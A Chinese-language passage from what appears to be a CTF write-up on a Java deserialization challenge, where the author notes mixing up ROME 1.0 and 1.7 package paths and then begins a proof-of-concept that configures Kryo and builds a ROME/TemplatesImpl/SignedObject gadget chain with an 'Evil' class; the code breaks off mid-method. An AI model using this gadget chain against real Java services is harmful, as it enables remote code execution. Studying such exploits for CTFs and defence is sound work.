 tnnd犯了一个蠢比问题，题目中用的是rome1.7，我本地搭环境用的是1.0，这两者的区别很大

##### 在rome 1.7中

```java
com.rometools.rome.feed.impl.Objectbean.class
```

##### 但是在rome1.0中

```java
com.sun.syndication.feed.impl.ObjectBean.class;
```

类换了位置，一直用rome1.0打rome1.7纯2B

```java
import com.esotericsoftware.kryo.Kryo;
import com.esotericsoftware.kryo.io.Output;
import com.esotericsoftware.kryo.io.Input;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ObjectBean;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.json.JSONObject;
import tools.Evil;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.Base64;
import java.util.HashMap;

public class rome_poc {
    public static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
    public static void main(String[] args) throws Exception {
        Kryo kryo = new Kryo();
        String raw = "{\"polish\":\"true\",\"RegistrationRequired\":false,\"InstantiatorStrategy\": \"org.objenesis.strategy.StdInstantiatorStrategy\"}";

        JSONObject serializeConfig = new JSONObject(raw);
        if (serializeConfig.has("polish") && serializeConfig.getBoolean("polish")) {
            Method[] var3 = kryo.getClass().getDeclaredMethods();
            int var4 = var3.length;
            for(int var5 = 0; var5 < var4; ++var5) {
                Method setMethod = var3[var5];
                if (setMethod.getName().startsWith("set")) {
                    try {
                        Object p1 = serializeConfig.get(setMethod.getName().substring(3));
                        if (!setMethod.getParameterTypes()[0].isPrimitive()) {
                            try {
                                p1 = Class.forName((String)p1).newInstance();
                                setMethod.invoke(kryo, p1);
                            } catch (Exception var9) {
                                var9.printStackTrace();
                            }
```